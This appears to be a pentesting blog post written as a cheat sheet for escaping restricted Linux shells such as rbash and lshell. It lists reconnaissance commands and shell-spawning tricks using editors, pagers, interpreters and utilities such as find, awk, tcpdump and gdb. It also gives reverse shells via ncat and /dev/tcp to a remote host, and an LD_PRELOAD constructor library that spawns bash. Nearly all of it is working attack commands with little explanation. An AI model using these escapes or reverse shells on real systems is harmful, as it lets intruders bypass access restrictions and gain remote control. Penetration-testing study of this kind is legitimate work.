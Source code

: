 ```yaml
---
title: Restricted environments
date: 2024-08-03 11:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - restricted environment
toc: true
---
```


---
Escape restricted Linux environments.

---
<!-- more -->

## List of restricted environments
```bash
rbash
rsh
rksh
rzsh
lshell
```

<br>

## Environment reconnaissance
```bash See exported environment variables
env
```
```bash Find the PATH
echo $PATH
```
```bash View the shell used
echo $SHELL
echo $0
```
```bash View available commands in /usr/bin
ls -lasR /usr/bin
```
```bash Check the availability of a command
type -a command
type -a ls
```
```bash Can you use '/'?
/bin/sh
```
```bash Can you set env variables?
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/sh
```
```bash Can you copy files into existing PATH?
cp /bin/sh /dir/inside/PATH; sh
```
```bash List available commands
compgen -c
```

<br>

## Use built-in shells
```bash
# Attempt to spawn a bash shell
/bin/bash
bash -i
exec /bin/bash

# If bash is restricted, try sh
/bin/sh

# If neither works, try other common shells
python -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/sh";'
ruby -e 'exec "/bin/sh"'
php -r 'system("/bin/bash");'
php -r 'shell_exec("/bin/bash");'
php -a # interactive shell
```

<br>

## Use SSH for remote access
```bash Try to SSH to localhost
ssh user@localhost
```
```bash Replace shell with a new one running as login shell
ssh user@$IP -t "bash -l"
```
```bash Start bash without sourcing ~/.bashrc or ~/.bash_profile
ssh user@$IP -t "bash --noprofile"
```

<br>

## Use text editors
```bash
vim -c ':!/bin/sh'
vi -c ':!/bin/sh'
```
```bash
nano # (Ctrl+R, Ctrl+X)
/bin/sh
```
```bash
ed
:!bash
```

<br>

## Using `less`, `more` and `man`
```bash
less /etc/hosts
!bash
```
```bash
more /etc/hosts
!bash
```
```bash
man
!sh
```

<br>

## Use other utilities
```bash rev shell
ncat -e /bin/bash $IP $port
```
```bash
find . -exec /bin/sh \;
```
```bash
nmap --interactive
!sh
```
```bash
awk 'BEGIN {system("/bin/bash")}'
```
```bash
tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /bin/sh -Z root
```
```bash
ftp
!/bin/sh
```
```bash
gdb
!/bin/sh
```
```bash
gdb -p $$
!/bin/sh
```
```bash
scp -S /tmp/exit.sh x y:
```
```bash Use SUID binaries - passwd for example
passwd -r compat -s
```

<br>

## More options
```bash Create symlink
ln -sf /bin/bash restricted_shell
```
```bash Write to files
echo "evil code" | tee script.sh
```
```bash rev shell
# On restricted shell
nc -lvp 4444
# On local machine
/bin/bash -c 'exec 5<>/dev/tcp/$remote_ip/4444;cat <&5 | while read line; do $line 2>&5 >&5; done'
```
```bash 
stty raw -echo; fg; export SHELL=/bin/bash; export TERM=xterm-256color; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp; stty rows 52 columns 208; reset;
```

<br>

Create a custom library
1. Create a shared object
```c /tmp/inject.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("/bin/bash");
}
```
2. Compile the code
```bash
gcc -fPIC -shared -o /tmp/libinject.so /tmp/inject.c
```
3. Run the restricted binary with LD_PRELOAD binary
```bash
export LD_PRELOAD=/tmp/libinject.so
restricted_binary
```

<br>

---
---
